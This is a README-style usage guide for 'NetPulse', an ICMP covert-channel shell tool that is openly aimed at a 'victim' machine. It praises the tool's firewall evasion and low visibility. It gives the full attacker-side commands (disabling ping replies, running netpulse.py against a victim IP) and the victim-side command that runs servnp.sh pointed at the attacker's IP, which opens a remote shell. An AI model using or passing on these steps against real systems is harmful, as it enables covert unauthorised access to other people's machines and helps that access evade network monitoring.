 # NetPulse Usage Guide - ICMP SHELL Tool

NetPulse is an ICMP SHELL tool that does not require root access on the victim's side. This guide provides detailed information on how to use NetPulse.

## Advantages of NetPulse
- **No Root Access Required:** NetPulse eliminates the need for root access on the victim's side.
- **Camouflage:** ICMP traffic is common and often allowed in networks and firewalls.
- **Reduced Visibility:** ICMP messages leave no traces in the state tables of most firewalls.
- **Useful in Restrictive Networks:** In networks where TCP or UDP traffic is strictly controlled, ICMP can be an alternative.

## Disadvantages of NetPulse
- **Limited Shell:** NetPulse provides a limited and non-interactive shell.
- **Uncommon Traffic:** Traffic generated by NetPulse can be detected by intrusion detection systems.
- **High Latency:** Compared to a reverse shell, NetPulse is much slower.

## Attacker-Side Configuration
Attacker-side configuration is more complex and requires root access. Follow the steps below:

### Disable Kernel Auto-Response to Pings:

To disable the kernel's automatic ping response, use the `-s` flag:
```
$ sudo python3 netpulse.py -s
```

If you want to enable it again, you can use the same option.
This change is not permanent and will revert to the default upon system restart.

### Starting the Client

To start the client, execute the [netpulse.py](/netpulse.py) file with root permissions:

```bash
$ sudo python3 netpulse.py -i <interface> <victim-IP>
```
For more options, use the -h flag:
```bash
$ python3 netpulse.py -h
```

## Victim-Side Configuration
Victim-side configuration is simpler and does not require root access. Ensure that the following tools are installed:

- [iputils-ping](https://packages.debian.org/bullseye/iputils-ping) - Tool for testing the reachability of network hosts.
- [xxd](https://packages.debian.org/bullseye/xxd) - Tool for creating (or reversing) a hexadecimal dump.

If all the necessary tools are installed, run the [servnp.sh](/servnp.sh) file:
```bash
$ chmod +x servnp.sh && ./servnp.sh <attacker-IP>
```

# Buy me a Coffee :p

<a href="https://www.buymeacoffee.com/ryan.r" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>
